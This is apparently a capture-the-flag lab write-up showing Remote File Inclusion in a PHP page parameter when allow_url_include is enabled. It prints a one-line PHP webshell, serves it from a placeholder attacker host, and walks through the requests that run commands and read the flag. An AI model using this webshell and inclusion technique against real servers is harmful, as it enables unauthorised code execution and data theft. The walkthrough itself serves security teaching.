







Level 5 presents a PHP application that passes user-supplied input directly into an include() statement without any filtering or sanitization. Unlike Local File Inclusion, this instance has allow_url_include=On set in php.ini, which instructs PHP’s include() to accept remote HTTP URLs in addition to local file paths. By supplying a URL pointing to an attacker-controlled server as the page parameter, the victim PHP engine fetches and executes the remote file as PHP code. Hosting a simple webshell at that URL gives the attacker full Remote Code Execution on the web server.
🎯 End Goals
Confirm the application is vulnerable to Remote File Inclusion (not just LFI)
Host a PHP webshell on an attacker-controlled HTTP server
Include the remote webshell via the vulnerable page parameter to achieve RCE
Retrieve the flag from /var/www/html/flags/flag5.txt
🪜 Steps to Reproduce
Identify the page parameter in level5.php as a potential file inclusion point.
Confirm RFI by supplying a remote URL as the page value and observing a connection error rather than a local file error — this proves allow_url_include=On.
Create a PHP webshell on the attacker machine.
Start an HTTP server to serve the webshell, then trigger it via the vulnerable parameter to confirm RCE.
Navigating to level5.php with the default page=welcome.txt parameter shows “Loading: includes/welcome.txt”, the same structure as previous labs. This indicates the page parameter is passed directly to PHP’s include() function and is a candidate for file inclusion exploitation.

Step 2 — Verify RFI capability
Before exploiting, the vulnerability type must be confirmed. Passing a remote URL — page=http://<ATTACKER_IP>:9999/shell.php — to the page parameter returns the error failed to open stream: Connection refused. This is the critical distinction: a local file error would say “No such file or directory”, whereas “Connection refused” means PHP actually attempted an outbound HTTP request to the attacker’s server. This proves allow_url_include=On is set in php.ini and confirms the application is vulnerable to RFI, not just LFI.

Step 3 — Create the PHP webshell
A minimal one-liner webshell is written to shell.php on the attacker machine: <?php system($_GET["cmd"]); ?>. This file accepts an OS command via the cmd query parameter and executes it using PHP’s system() function. The victim PHP engine will fetch and evaluate this file — the attacker's own server only needs to serve the raw text, not execute it.

Step 4 — Serve the webshell and confirm RCE
A Python HTTP server is started with python3 -m http.server 9999, making shell.php accessible at http://<ATTACKER_IP>:9999/shell.php. The webshell is then triggered by requesting page=http://<ATTACKER_IP>:9999/shell.php&cmd=id. The victim PHP engine fetches shell.php, executes it, and returns uid=33(www-data) gid=33(www-data) groups=33(www-data) in the response, confirming full RCE as the www-data user.


Step 5 — Locate the flag
With RCE confirmed, the command find / -name flag5.txt 2>/dev/null is passed via curl by appending &cmd=find+/-name+flag5.txt+2>/dev/null to the RFI URL. The output reveals the flag at /var/www/html/flags/flag5.txt.

Step 6 — Retrieve the flag
Navigating to the RFI URL in the browser with cmd=cat+/var/www/html/flags/flag5.txt executes the command and renders the output inline: FLAG{lvl5_real_rfi_remote_shell}.

🎯 Impact
An attacker who identifies allow_url_include=On can achieve full Remote Code Execution on the web server as the www-data user with no authentication required. This allows reading of arbitrary files, exfiltration of sensitive data, modification of web application files, and potential lateral movement within the server or internal network. RFI is generally considered more severe than LFI because it does not require any prior access to the target filesystem — the attacker supplies the payload entirely from their own infrastructure.